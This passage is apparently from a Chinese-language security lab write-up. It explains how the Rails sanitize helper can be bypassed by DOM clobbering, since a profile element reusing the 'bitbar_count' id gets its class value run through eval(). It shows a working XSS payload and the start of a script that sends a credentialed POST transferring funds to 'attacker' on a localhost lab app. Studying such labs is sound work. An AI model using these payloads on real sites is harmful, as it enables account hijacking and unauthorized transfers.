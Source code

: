 > ### **sanitize**(html, options = {})[Link](https://edgeapi.rubyonrails.org/classes/ActionView/Helpers/SanitizeHelper.html#method-i-sanitize)
>
> Sanitizes HTML input, stripping all but known-safe tags and attributes.
>
> It also strips href/src attributes with unsafe protocols like `javascript:`, while also protecting against attempts to use Unicode, ASCII, and hex character references to work around these protocol filters. All special characters will be escaped.
>
> The default sanitizer is Rails::Html::SafeListSanitizer. See [Rails HTML Sanitizers](https://github.com/rails/rails-html-sanitizer) for more information.
>
> Custom sanitization rules can also be provided.
>
> Please note that sanitizing user-provided text does not guarantee that the resulting markup is valid or even well-formed.

可以看到 sanitize 同时去除了href 和 src 内嵌不安全的协议，比如 `javascirpt`，以及尝试使用 ASCII 的方法。

但是，这个 sanitize 存在漏洞，参考 [Rails sanitize allowed_attributes 不安全 · Ruby China (ruby-china.org)](https://ruby-china.org/topics/28760)，结合源代码：

`profile.html.erb`

```html
    <span id="bitbar_count" class="<%= @user.bitbars %>" />
    <script type="text/javascript">
      var total = eval(document.getElementById('bitbar_count').className);
      function showBitbars(bitbars) {
        document.getElementById("bitbar_display").innerHTML = bitbars + " bitbars";
        if (bitbars < total) {
          setTimeout("showBitbars(" + (bitbars + 1) + ")", 20);
        }
      }
```

可以看到关键代码：

```js
var total = eval(document.getElementById('bitbar_count').className);
```

这一行通过 bitbar_count 寻找页面元素并计算 class 的值，如果页面中多个元素的 id 相同，该方法只会返回第一个匹配的元素。巧的是，profile 的内容正好在原 bitbar_count 的上面，那么就可以利用这一点，设置 profile 的元素的 id 为 bitbar_count，class 存放 JS 代码，那么就可以实现执行任意代码。例如：

```html
<a id= "bitbar_count" class="alert(1)">way</a> 
```

首先执行转账操作，向 post_transfer 发送 post 请求即可：

```js
const params = "destination_username=attacker&quantity=1";
var req = new XMLHttpRequest();
req.withCredentials=true;
req.open('POST', 'http://localhost:3000/post_transfer');
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
try { req.send(params); }
finally {
    req = new XMLHttpRequest();
    ...
}
```
